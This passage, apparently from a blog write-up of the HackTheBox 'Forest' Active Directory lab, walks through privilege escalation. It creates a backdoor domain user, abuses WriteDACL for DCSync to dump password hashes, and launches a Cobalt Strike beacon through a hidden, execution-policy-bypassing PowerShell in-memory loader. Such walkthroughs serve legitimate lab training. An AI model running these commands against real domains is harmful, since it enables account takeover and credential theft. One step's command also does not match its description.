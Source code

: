 
<br>
**Step 1: Create a New User**  
Since svc-alfresco is a member of Account Operators, we can create a new domain user(sploit). This is can somehow act us our  backdoor account.
```
net user sploit password /add /domain
```
**Step 2: Add the User to the Exchange Windows Permissions Group**  
We now escalate our new user’s privileges by adding them to the Exchange Windows Permissions group. This step is critical because this group has dangerous control over the entire domain.
```
net group "Exchange Windows Permissions"
```
**Step 3: Abuse WriteDACL to Get DcSync Privileges** -
Since the Exchange Windows Permissions group has WriteDACL over the domain, we can now modify Active Directory permissions to grant our new user the Replicating Directory Changes privilege (a.k.a. DcSync power). For this I wil go the cobalt strike way.
💡 Why is this important?  
Because DcSync allows us to pull password hashes from ANY user in Active Directory, including the Administrator.

![](/img/Forest/Pasted%20image%2020250302165612.png)

## Privilege Escalation
##### **Cobalt Strike Perspective**
After setting up the attack path, I decided to explore Cobalt Strike for performing DC Sync actions. This provides a different approach, offering flexibility in post-exploitation and lateral movement. Using Cobalt Strike, we can execute a DC Sync attack, extract hashes, and then pivot to pass-the-hash for DA access. It's actually  clean just for us to have a feel of a real-world adversary simulation experience.
######  Concepts
- ***Beacon*** – This is the payload used for executing commands post-exploitation.
- ***Post-Exploitation & Lateral Movement*** – Cobalt Strike provides a stealthy interface for pivoting across the network, running commands asynchronously or in real time.

Starting Team server: 
![](/img/Forest/Pasted%20image%2020250302171604.png)
Creating a listener
![](/img/Forest/Pasted%20image%2020250302172012.png)

![](/img/Forest/Pasted%20image%2020250302172714.png)


uploading the Stager
![](/img/Forest/Pasted%20image%2020250302173211.png)

Load and Execute the Script in Memory- so as to get a beacon to our Cobalt strike
```
powershell -ep bypass -nop -w hidden -c "IEX (Get-Content .\beacon_x64.ps1 | Out-String)"

***Explanation:***
- `IEX` (Invoke-Expression) runs the script in memory.
- `Get-Content` reads the script without executing it from disk.
- `-nop` (NoProfile) avoids loading unnecessary PowerShell modules.
- `-w hidden` keeps the PowerShell window hidden for stealth.
```
![](/img/Forest/Pasted%20image%2020250302173350.png)
We now have a beacon on hosts.
![](/img/Forest/Pasted%20image%2020250302173414.png)
Illustting posisble thing we can do once we have a beacon. I guess I will cover in details in other post for now  just enjoy yhe screenshot for those who are new.